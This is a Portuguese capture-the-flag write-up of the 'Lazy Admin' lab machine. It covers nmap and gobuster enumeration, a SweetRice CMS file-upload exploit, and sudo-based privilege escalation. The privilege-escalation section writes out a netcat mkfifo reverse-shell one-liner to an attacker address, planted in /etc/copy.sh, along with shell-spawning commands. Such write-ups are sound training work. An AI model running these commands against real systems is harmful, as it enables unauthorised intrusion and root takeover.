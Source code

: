 # _**Lazy Admin CTF**_
![](lazy.jpg)

## _**Enumeração**_
Vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap --open -A -T5 [ip_address]
> ```
![](scan_nmap.jpg)

Vamos também realizar um scan <mark>Gobuster</mark> no alvo
> ```bash
> gobuster dir --url [ip_address] -w ../seclists/Discovery/Web-Content/common.txt
> ```
![](scan_gobuster.jpg)

Vamos visitar <mark>/content</mark>  

![](content.jpg)

Este é todo conteúdo de <mark>/content</mark>  
Aparentemente temos um CMS  
Vamos buscar manualmente em alguns diretórios conhecidos para saber qual a versão CMS temos do <mark>SweetRice</mark> ```changelog.txt```  

![](changelog.jpg)

Achamos em /changelog.txt e também, mais algumas informações
* Versão <mark>1.5.0</mark>
* Autor: <mark>Hiler Liu</mark>
* e-mail: <mark>steelcal@gmail.com</mark>

## _**Ganhando acesso**_
Pesquisando no Google por CVEs conhecidas, encontramos a seguinte: _**SweetRice 1.5.1 - Arbitrary File Upload**_  
Essa CVE permite executarmos um <mark>script em python </mark> e realizar upload de um arquivo _**.php**_ para obtermos um shell reverso  
Os scripts em ![.php e .py](https://github.com/k4miyo/SweetRice-CMS-exploit)  
Clonamos para nosso computador com ```git clone```, damos permissão de execução com ```chmod``` e usamos o _**netcat**_ para obtermos o shell reverso  

![](reverse_shell.jpg)

Agora que obtemos um shell, vamos procurar o que viemos procurar, as _flags_  
Primeiro, nossa _flag de usuário_  
Com o comando ```find```, podemos rapidamente encontrar sua localização
> ```bash
> find / -file "user.txt" 2>/dev/null
> ```
![](user_flag.jpg)

## _**Escalação de privilégios**_
Agora para a _root flag_, temos que escalar privilégios  
Vamos testar alguns comandos  
Primeiro, ```sudo -l```  

![](sudo.jpg)

Podemos executar um _**script em Perl**_ como _root_ sem a necessidade de senha
Ou também, podemos alterar o arquivo _backup.pl_ (arquivo Perl) para obtermos _root_
Executando o comando abaixo para termos _root_
> ```bash
> sudo perl -e ‘exec “/bin/bash”’
> ```
![](sudo_error.jpg)

Vamos buscar uma forma alternativa, tentando editar o arquivo _.pl_  
Ao verificar se é possível editar, temos uma negação  
Porém, o arquivo encontrado **(/etc/copy.sh)** pode ser editado  
Basicamente é um arquivo que _backup.pl_ que fica executando  
E ele pode ser editado para nós obtermos uma _shell root_  
Executando o comando abaixo da imagem, copiamos o seu conteúdo para _/etc/copy.sh_
> ```bash
> python3 -c 'import pty, os; pty.spawn("/bin/bash")'
> ```
> ```bash
> cat /etc/copy.sh
> ```
> ```bash
> echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [vpn_ip_address] [port] >/tmp/f" > /etc/copy.sh
> ```
![](shell_root.jpg)

Aora, basta executar o arquivo _/home/itguy/backup.pl_ como _sudo_ para obtermos o _shell root_.  
Não podemos esquecer do _netcat_  

![](true_root.jpg)

A partir daí, um simples comando 
> ```bash
> find / -name ‘root.txt’ 2>/dev/null
> ```
e temos a segunda _flag_

